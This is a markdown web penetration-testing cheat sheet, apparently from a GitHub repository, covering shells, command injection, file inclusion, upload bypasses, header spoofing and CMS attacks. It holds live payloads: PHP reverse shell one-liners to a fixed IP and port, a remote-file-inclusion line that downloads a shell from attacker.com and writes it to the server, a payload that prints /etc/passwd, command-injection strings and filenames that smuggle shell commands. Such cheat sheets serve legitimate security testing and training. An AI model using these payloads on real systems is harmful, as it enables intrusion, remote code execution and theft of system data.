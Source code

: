 # WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp
* [CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder/) - tool for testing CSRF against web services


Command Injection
-----------------

* Try to use pipe, ampersands, double ampersands, colon: `1 | uname -a & users & id`


File Inclusion
==============

Local File Inclusion
--------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  

Remote File Inclusion
---------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`  
* [PHP File Inclusion Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)  
* [Uniscan](https://sourceforge.net/projects/uniscan/) - simple RFI, LFI and RCE vulnerability scanner  
* [rfishell](https://github.com/superkojiman/rfishell) - provide a shell-like interface when exploiting RFI vulns  

Exploitation examples:  
```
http://victim.com/i_dont_exist.php?code=<?php file_put_contents("shell.php", file_get_contents("http://attacker.com/shell.txt")) ?>
http://10.0.17.147/wordpress/wp-content/plugins/mygallery/myfunctions/mygallerybrowser.php?myPath=http://10.0.17.145/test/test.txt? //test.txt contains <?php print system("cat /etc/passwd"); ?>
```
When appending questionmark to the end of the payload, the remainder of the local PHP code is treated as a parameter to the RFI included code. Also try multiple questionmarks, nullbytes `%00`.  
Metasploit Web Delivery could also be useful in order to get an interactive shell.


File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path

* Uploading `.htaccess` and remapping filetypes
* Shellcode in filename:
```
.png; ls -la;
; whoami; .png
```

Language-Specific
=================

ASP.NET
-------

Determine if stack traces are enabled: `host.com/default|.aspx`  
Invalidate .NET Monitoring with a virtual directory identifier: `host.com/default~.aspx`  
Detailed application level trace information (rarely enabled): `host.com/trace.axd`   
Most important file: web.config (located inside the document root).  
`__VIEWSTATE` variable contains application state (applicaton variables and control attributes). Viewstate contents can be decoded using a [ViewState Decoder](http://www.pluralsight.com/tools.aspx).  
[Drop and Pop](http://ha.cked.net/dropandpop.zip) - .NET reverse shell dropper  


PHP
---

* [IonCube V8.2 + PHP Auto - Fixer Decoder](http://phpdecode.blogspot.co.at/)


XXE (XML External Entity Injection)
-----------------------------------

* [Preventing XXE in PHP](https://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

SSL
---

* [SSL Checklist for Pentesters - the Manual Cheatsheet](http://www.exploresecurity.com/wp-content/uploads/custom/SSL_manual_cheatsheet.html)

SSI (Server-Side Include)
-------------------------

`<!--#echo var="DATE_LOCAL" -->`

IP Spoofing
-----------
```
Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  
```
Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), [FileStorage Plus!](https://addons.mozilla.org/de/firefox/addon/firestorage-plus/), [NoScript Security Suite](https://addons.mozilla.org/en-US/firefox/addon/noscript/), [HackBar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/)  


Information Leakage
-------------------
```
GET / HTTP/1.0
CONNECTION:CLOSE


```
Send this request using Burp Repeater. Might leak internal IPs, hostnames etc. Note the two newlines after CONNECTION:CLOSE.


CMS-Specific
============

Drupal
------

* [Attacking Drupal](http://www.slideshare.net/heinzarelli/attacking-drupal)
* [DPScan](http://www.ehacking.net/2012/02/dpscan-drupal-security-scanner-tutorial.html)
* [Drupal by Mad Irish](http://www.madirish.net/tag/drupal) - good resource on Drupal vulns
* Find out which version: `domain.com/changelog.txt`

Liferay
-------

* [LiferayScan](https://github.com/bcoles/LiferayScan) - simple remote scanner for Liferay Portal
* [Hacking Liferay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html) - version 6.06
* [Liferay Portal Security Research](http://www.procheckup.com/media/194945/liferay.pdf) - version 6.05
* [Liferay Portlet Shell](https://www.insinuator.net/tag/liferay/)
* [Liferay 6.1 can be compromised in its default configuration](http://seclists.org/bugtraq/2012/Apr/151)
* [Liferay Portal 7.0.x <= 7.0.2 - Pre-Auth RCE Exploit](http://0day.today/exploit/23043)
* [Hacking LifeRay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html)
* [Hacking Liferay](http://blog.etapix.com/2013/02/hacking-liferay-securing-against-online.html)
